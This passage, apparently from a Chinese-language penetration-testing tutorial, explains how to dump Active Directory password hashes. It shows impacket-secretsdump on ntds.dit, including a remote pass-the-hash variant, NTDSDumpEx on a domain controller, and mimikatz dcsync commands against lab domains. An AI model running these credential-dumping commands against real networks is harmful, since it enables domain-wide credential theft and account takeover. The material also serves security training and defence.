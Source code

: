 执行以上命令，可以导出域内所有计算机的信息，导出文件的格式为CSV。执行完毕之后他会在all_computers.csv中写入所有域中计算机信息。

#### 2.3 使用 impacket 工具包导出散列值

[https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

```
git clone https://github.com/SecureAuthCorp/impacket
python setup.py install
```

导出 ntds.dit 中所有散列值：

```
impacket-secretsdump -system system.hive -ntds ntds.dit LOCAL
```

[![5zmmDO.png](https://z3.ax1x.com/2021/10/30/5zmmDO.png)](https://imgtu.com/i/5zmmDO)

还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值：

```
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:de9a868cef19bda26c1b600894efddd7 -just-dc sec.com/administrator@192.168.2.10
```

#### 2.4 Windows 下解析并导出域散列值

使用 NTDSDumpex.exe 可以进行导出散列值的操作。

下载：[https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip](https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip)

域控上运行：(同样需要ntds.dit和system.hive和NTDSDumpex.exe 在同一文件夹下)

```
.\NTDSDumpEx.exe -d ntds.dit -s system.hive
```

[![5z8foV.png](https://z3.ax1x.com/2021/10/30/5z8foV.png)](https://imgtu.com/i/5z8foV)

。。。

### 三、利用 dcsync 获取域散列值

#### 3.1使用mimikatz转储域散列值

mimikatz有一个dcsync 功能，可以利用卷影拷贝服务直接读取ntds.dit文件并检索域散列值。需要注意的是，必须使用域管理员权限运行mimikatz才可以读取ntds.dit。

在域内的任意一台计算机中，以域管理员权限打开命令行环境，运行mimikatz。输人如下命令，使用mimikatz导出域内的所有用户名及散列值：

```
lsadump::dcsync /domain:hacke.testlab /all /csv
```

[![5zJybn.png](https://z3.ax1x.com/2021/10/30/5zJybn.png)](https://imgtu.com/i/5zJybn)

也可以指定用户，获取指定用户散列值：

```
lsadump::dcsync /domain:hacke.testlab /user:administrator
```
